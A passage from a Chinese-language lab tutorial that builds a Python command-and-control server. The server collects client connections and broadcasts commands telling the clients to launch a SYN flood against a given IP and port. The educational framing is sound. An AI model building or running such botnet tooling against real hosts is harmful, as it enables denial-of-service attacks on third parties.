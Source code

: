 可以看到服务器的写法稍稍比客户端复杂一些，在创建玩socket之后，要绑定一个地址和端口，这里的`0.0.0.0`表示绑定到所有的网络地址，端口号只要不是已经使用的端口号就可以了。之后开始监听端口，并在参数中指定最大连接数为10。最后我们循环等待新的连接，并将已连接的sock对象添加到了一个列表中。注意这里`accept()`默认是阻塞的，还可以通过`settimeout()`设定等待时间或者`setblocking()`设置为非阻塞模式，更多的相关细节可以查看[Python官方文档](https://docs.python.org/3/)。


## 三、编码实现
通过前面的学习我们已经了解了本次实验需要的基础知识，现在我们就来分别实现Server端和Client端。

### 1. Server端

由于Server端能等待Client主动连接，所以我们在Server端发送命令，控制Client端发起`SYN泛洪攻击`。

实现主函数的完整逻辑，在主函数中我们创建socket， 绑定所有`网络地址`和`58868`端口并开始监听，之后我们新开一个线程来等待客户端的连接，以免阻塞我们输入命令。

```
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((&#39;0.0.0.0&#39;, 58868))
    s.listen(1024)
    t = Thread(target=waitConnect,args=(s,))
    t.start()
```

由于我们要给所有客户端发送命令，所以我们在新开的线程中将连接进来的socket添加到一个list中，这个我们稍后介绍，但在主函数中我们第一次输入命令之前需要至少有一个客户端连接到服务器，所以这里我们判断了一下`socket`的长度。

```
    print(&#39;Wait at least a client connection!&#39;)
    while not len(socketList):
        pass
    print(&#39;It has been a client connection!&#39;)

```

现在循环等待输入命令，输入之后判断命令是否满足命令格式的基本要求，如果满足了，我们就把命令发送给所有客户端。
```
    while True:
        print(&#39;=&#39; * 50)
        print(&#39;The command format:&#34;#-H xxx.xxx.xxx.xxx -p xxxx -c &lt;start&gt;&#34;&#39;)
        #等待输入命令
        cmd_str = input(&#39;Please input cmd:&#39;)
        if len(cmd_str):
            if cmd_str[0] == &#39;#&#39;:
                sendCmd(cmd_str)
```

现在我们程序的大体框架已经有了，现在我们来编写主函数中没有完成的子功能。
首先我们应该实现等待客户端的函数，方便开启新的线程。

在这个函数中，我们只需要循环等待客户端的连接就可以了，新连接的socket要判断一下是否在socketList中已经存储过了，如果没有的话就添加到socketList中。

```
#等待连接
def waitConnect(s):
    while True:
        sock,addr = s.accept()
        if sock not in socketList:
            socketList.append(sock)
```
我们再来实现发送命令的函数，这个函数我们遍历socketList这个列表，将每个socket都调用一次`send`将命令发送出去。
